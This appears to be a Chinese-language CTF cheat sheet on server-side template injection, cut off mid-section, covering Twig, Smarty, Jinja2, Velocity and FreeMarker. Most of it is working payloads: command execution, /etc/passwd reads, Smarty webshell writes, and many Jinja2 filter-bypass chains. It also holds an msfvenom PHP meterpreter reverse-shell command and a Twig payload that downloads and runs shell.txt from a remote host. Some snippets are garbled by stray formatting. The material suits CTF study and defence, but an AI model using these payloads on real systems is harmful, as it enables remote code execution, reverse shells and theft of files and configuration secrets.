# 简单的概要

CTF 大概率不会考 XSS ，看到回显或者说看到 XSS ，第一时间想到 SSTI



先试试 `${7*7}` 如果不行 那就试试 `{{7*7}}` 如果可以 再试试 `{{7*'7'}}` 奈斯，配合 `.php`后缀 就能判断了

在区分Jinja2和Twig那里是这样的：

```http
Twig 
{{7*'7'}}  #输出49
Jinja
{{7*'7'}}  #输出7777777
```

## 1. PHP中的 SSTI

### Twig

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

注入php shellcode

```python
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}
```

### Smatry

```
 {system('cat /flag')}
{if phpinfo()}{/if}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

### Blade

略

## 2. Python中的 SSTI

### Jinja2

```python
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
#文件操作
{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()


  
  
    
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    
  
  


```

## Tornado

略 `{{handler.settings}}`

## Django

略

## 3. Java 中的 SSTI

### Velocity

```python
http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

### FreeMarker

```python
{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

# **前言**

## **模板引擎**

模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，利用模板引擎来生成前端的html代码，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前。

模板引擎也会提供沙箱机制来进行漏洞防范，但是可以用沙箱逃逸技术来进行绕过。

## **SSTI（模板注入）**

SSTI 就是服务器端模板注入（Server-Side Template Injection）

当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。



# PHP 中的 SSTI

php常见的模板：twig，smarty，blade

## **Twig**

Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

在这里提供一个针对twig的攻击载荷：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231853350-914354726.png)

使用msf生成了一个php meterpreter有效载荷

```
msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
```

msf进行监听：

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232520602-1757346385.png)

模板注入远程下载shell，并重命名运行

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}
```

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232914668-1182705687.png)

以上就是php twig模板注入，由于以上使用的twig为2.x版本，现在官方已经更新到3.x版本，根据官方文档新增了 filter 和 map 等内容，补充一些新版本的payload：

```
{{'/etc/passwd'|file_excerpt(1,30)}} {{app.request.files.get(1).__construct('/etc/passwd','')}} {{app.request.files.get(1).openFile.fread(99)}} {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}} {{_self.env.enableDebug()}}{{_self.env.isDebug()}} {{["id"]|map("system")|join(",") {{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}} {{["id",0]|sort("system")|join(",")}} {{["id"]|filter("system")|join(",")}} {{[0,0]|reduce("system","id")|join(",")}} {{['cat /etc/passwd']|filter('system')}}
```

具体payload分析详见：

《[TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518#toc-5)》

《[SSTI-服务器端模板注入](https://my.oschina.net/u/4588149/blog/4408349)》

## **Smarty**

Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读[模板的文档](https://github.com/smarty-php/smarty)以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的的方法

### **Smarty-SSTI 常规利用方式：**

**1. {$smarty.version}**

```
{$smarty.version}  #获取smarty的版本号
```

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233050238-1942906786.png)

**2. {php}{/php}**

```
{php}phpinfo();{/php}  #执行相应的php代码
```

Smarty支持使用` {php}{/php}` 标签来执行被包裹其中的`php`指令，最常规的思路自然是先测试该标签。但就该题目而言，使用`{php}{/php}`标签会报错：

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233259128-196602210.png)

因为在`Smarty3`版本中已经废弃`{php}`标签，强烈建议不要使用。在`Smarty 3.1`，`{php}`仅在`SmartyBC`中可用。

**3. {literal}**

<script language="php">phpinfo();</script>   

这个地方借助了` {literal}` 这个标签，因为` {literal} `可以让一个模板区域的字符原样输出。 这经常用于保护页面上的`Javascript`或`css`样式表，避免因为`Smarty`的定界符而错被解析。但是这种写法只适用于`php5`环境，这道ctf使用的是`php7`，所以依然失败

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233719367-1535357026.png)

**4.** **getstreamvariable**

```
{self::getStreamVariable("file:///etc/passwd")}
```

Smarty类的getStreamVariable方法的代码如下：

```python
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```

可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法。然而使用这个`payload`会触发报错如下：

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820234305773-495371489.png)

可见这个旧版本`Smarty`的`SSTI`利用方式并不适用于新版本的`Smarty`。而且在`3.1.30`的`Smarty`版本中官方已经把该静态方法删除。 对于那些文章提到的利用` Smarty_Internal_Write_File` 类的writeFile方法来写shell也由于同样的原因无法使用。

**5. {if}{/if}**

```
{if phpinfo()}{/if}
```

Smarty的` {if} `条件判断和`PHP`的`if`非常相似，只是增加了一些特性。每个`{if}`必须有一个配对的`{/if}`，也可以使用`{else} `和 `{elseif}`，全部的`PHP`条件表达式和函数都可以在if内使用，如`||*，or，&&，and，is_array()`等等，如：`{if is_array($array)}{/if}*`

既然这样就将`XFF`头改为` {if phpinfo()}{/if}` ：

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820234610811-341143885.png)

同样还能用来执行一些系统命令：

[](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820234755671-2008092498.png)

## Blade 

略

Blade 是 Laravel 提供的一个既简单又强大的模板引擎。

关于blade模板这里不再多说，请参考《[laravel Blade 模板引擎](https://www.cnblogs.com/sgm4231/p/10283661.html)》

# **Python中的SSTI**

python常见的模板有：Jinja2，tornado

## **Jinja2**

`Jinja2`是一种面向`Python`的现代和设计友好的模板语言，它是以`Django`的模板为模型的

`Jinja2`是`Flask`框架的一部分。`Jinja2`会把模板参数提供的相应的值替换了 `{{…}} `块

`Jinja2`使用` {{name}}`结构表示一个变量，它是一种特殊的占位符，告诉模版引擎这个位置的值从渲染模版时使用的数据中获取。

`Jinja2 `模板同样支持控制语句，像在` ` 块中，下面举一个常见的使用`Jinja2`模板引擎`for`语句循环渲染一组元素的例子：

```
<ul>

      <li>{{comment}}</li>
 
</ul>
```

另外`Jinja2 `能识别所有类型的变量，甚至是一些复杂的类型，例如列表、字典和对象。此外，还可使用过滤器修改变量，过滤器名添加在变量名之后，中间使用竖线分隔。例如，下述模板以首字母大写形式显示变量`name`的值。

```
Hello, {{name|capitalize}}
```

Python 基础知识：

```python
__dict__　　 ：保存类实例或对象实例的属性变量键值对字典
__class__　　：返回一个实例所属的类
__mro__　　  ：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__bases__　　：以元组形式返回一个类直接所继承的类（可以理解为直接父类）
__base__　　 ：和上面的bases大概相同，都是返回当前类所继承的类，即基类，区别是base返回单个，bases返回是元组 ， __base__和__mro__都是用来寻找基类的
__subclasses__　　：以列表返回类的子类
__init__　　 ：类的初始化方法
__globals__　　   ：//任何一个函数应用这个就能获取所有变量！！！！！//对包含函数全局变量的字典的引用
__builtin__ && __builtins__　　：python 中可以直接运行一些函数，例如int()，list()等等。　　　　　　　　　　　　　　　　　　这些函数可以在__builtin__可以查到。查看的方法是dir(__builtins__)　　　　　　　　　　　　　　　　　　在py3中__builtin__被换成了builtin　　　　　　　　　　　　　　　　　　
1.在主模块main中，__builtins__是对内建模块__builtin__本身的引用，即__builtins__完全等价于__builtin__。　　　　　　　　　　　　　　　　　　
2.非主模块main中，__builtins__仅是对__builtin__.__dict__的引用，而非__builtin__本身

request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

`**__globals__**` **很好用**



在jinjia2中有4中全局变量
1：config
代表当前flask配置
2：g
g作为flask程序全局的一个临时变量。充当媒介的功能
3：requests
客户端发送的HTTP请求内容
4：session
用户会话

1. url_for()

url_for会根据传入的路由器函数名,返回该路由对应的URL,在模板中始终使用url_for()就可以安全的修改路由绑定的URL,则不比担心模板中渲染出错的链接

1. get_flashed_messages()

这个函数会返回之前在flask中通过flask()传入的消息的列表，flash函数的作用很简单,可以把由Python字符串表示的消息加入一个消息队列中，再使用get_flashed_message()函数取出它们并消费掉


但还有点其他的：

url_for、g、request、namespace、lipsum、range、session、dict、get_flashed_messages、cycler、joiner、config等


### 简单获取信息

```python
当然了，上面那些参数都可以，下面这几个也可以排列组合
{{self.__dict__}}
{{config.__dict__}}
{{url_for.__globals__}}
{{get_flashed_messages.__globals__}}

获取环境信息
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}

                                                                                         
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

`{{get_flashed_messages.__globals__['current_app'].config}}` 获取配置信息

`{{url_for.__globals__['current_app'].config}}`获取配置信息


### 绕过

**过滤 []**

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。在这里使用 pop 函数并不会真的移除，但却能返回其值，取代中括号来实现绕过。

```
''**.**__class__**.**__mro__**.**__getitem__(2)**.**__subclasses__()**.**pop(40)('/etc/passwd')**.**read()
{{().__class__}}
{{()['__class__']}}
payload:
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}


#利用 pop() 绕过：pop()方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       
#指定序列属性
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       
#指定字典属性
```

`__getattribute__`绕过：

调用魔术方法本来是不用中括号的，但是如果过滤了关键字，要进行拼接的话就不可避免要用到中括号，如果同时过滤了class和中括号，可用`__getattribute__`绕过

```
{{"".__getattribute__("__cla"+"ss__").__base__}}
```

配合`request`绕过：

```
{{().__getattribute__(request.args.arg1).__base__}}&arg1=__class__
payload： {{().__getattribute__(request.args.arg1).__base__.__subclasses__().pop(376).__init__.__globals__.popen(request.args.arg2).read()}}&arg1=__class__&arg2=whoami
?name={{x.__init__.__globals__.__getitem__(request.cookies.x1).eval(request.cookies.x2)}} cookie传参：x1=__builtins__;x2=__import__('os').popen('cat /f*').read()
```

利用字典读取绕过:

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 [] 里来访问，一种就是用点 . 来访问。所以，当方括号 [] 被过滤之后，我们还可以用点 . 的方式来访问:

```javascript
#// __builtins__.eval()
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
#等同于：
[__builtins__]['eval'](){{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```


**过滤 .**

若`.`也被过滤，使用原生 JinJa2 函数 `|attr()`

即将 `request.__class__` 改成 `request|attr("__class__")`

```javascript
在python中，可用以下表示法可用于访问对象的属性
{{().__class__}}
{{()["__class__"]}}
{{()|attr("__class__")}}
{{getattr('',"__class__")}}
也就是说我们可以通过`[]`，`attr()`，`getattr()`来绕过点
```

**|attr()** **绕过：**

使用原生JinJa2的函数attr()，以下两行是等价的

```javascript
{{().__class__}}
{{()|attr('__class__')}}
payload：
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```

**getattr()****绕过：**

这种方法有时候由于环境问题不一定可行，会报错'getattr' is undefined，所以优先使用以上两种

```javascript
Python 3.7.8
>>> ().__class__
<class 'tuple'>
>>> getattr((),"__class__")
<class 'tuple'>
```

**过滤下划线 _**

利用 `request.args` 的属性

```
{{ ''[request**.**args**.**class][request**.**args**.**mro][2][request**.**args**.**subclasses]()[40]('/etc/passwd')**.**read() }} ---> **&**class**=**__class__**&**mro**=**__mro__**&**subclasses**=**__subclasses__
```

将其中的 `request.args` 改为 `request.values`，则利用 post 的方式进行传参。

- 编码绕过:

使用十六进制编码绕过，`_` 编码后为 `\x5f`，`.`编码后为 `\x2E`

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[376]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['popen']('whoami')['read']()}}
```

甚至可以全十六进制绕过，顺便把关键字也一起绕过，这里先给出个python脚本方便转换

```javascript
string1="__class__"
string2="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
def tohex(string):
  result = ""
  for i in range(len(string)):
      result=result+"\\x"+hex(ord(string[i]))[2:]
  print(result)

tohex(string1) #\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f
print(string2) #__class__
{{""["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[64]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]("\x6f\x73")["\x70\x6f\x70\x65\x6e"]("whoami")["\x72\x65\x61\x64"]()}}
```

- 利用request对象绕过:

```javascript
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

等同于：

```javascript
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**chr() 绕过:**

抓包，设置`[§0§]`，这里先爆破subclasses，获取subclasses中含有chr的类索引，然后用chr来绕过传参时所需要的引号，然后需要用chr来构造需要的字符

```
{{().__class__.__base__.__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}} 
```

快速构造想要的ascii字符:

